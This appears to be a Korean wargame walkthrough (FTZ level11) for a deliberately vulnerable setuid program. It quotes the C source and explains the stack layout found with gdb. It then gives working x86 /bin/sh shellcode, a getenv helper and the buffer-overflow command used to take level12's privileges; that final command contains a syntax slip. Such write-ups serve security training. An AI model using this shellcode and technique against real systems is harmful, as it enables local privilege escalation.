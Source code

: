 level11
===
1. 일단 힌트 파일을 열어본다. 그러면 힌트파일에 다음과 같이 적혀 있는 것을 확인할 수 있다. 
```c
#include<stdio.h>
#include<stdlib.h>

int main( int argc, char *argv[]){
    char str[256];

    setreuid(3092, 3092);
    strcpy(str, argv[1]);
    printf(str);
}
```
이 소스는 attackme의 소스파일인 것 같다. 

그리고 str의 크기를 256이라고 정해놓고, 한도없이 입력받을 수 있는 것을 보아 
이 문제는 bof문제이다!!

2. gdb attackme -> disas main (main함수의 어셈블리코드를 보기)를 통해
main함수의 명령어를 본다. 

명령어를 보다보면 __<main+3>sub $0x108,%esp__ 부분을 찾을 수 있다. 이것을 보면 
str의 256바이트와 dummy 8바이트가 저장되어있는 것을 알 수 있다.  (0x108==264)

여기서의 메모리 구조는 str+dummy+SFP+RET(256+8+4+4)이다.

3. shellcode환경변수를 만들어서 RET에 shellcode의 주소를 넣어 attackme를 실행할 때 인자로 넣어 level12의 권한을 취득할 것이다.

일단, 환경변수 SHELLCODE를 만든다.
```
export SHELLCODE=`python -c'print"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```
그리고 다음은 SHELLCODE의 주소를 구하는 프로그램인 getenv.c의 소스다.
```c
#include<stdio.h>

int main(int argc, char *argv[]){
    printf("%p", getenv(argv[1]));
    return 0;
}
```
위의 프로그램을 이용하여 SHELLCODE의 주소를 구하면 다음과 같다.
                       __0xbffffb0a__

4. 이제 attackme를 공격해보자!

./attackme `python  -c'print="\x90"*268+"\x0a\xfb\xff\xbf"'`를 입력하고, id를 입력해보면 level12권한을 취득했음을 알 수 있다. 그리고 my-pass를 입력하면 level12의 password를 알 수 있다.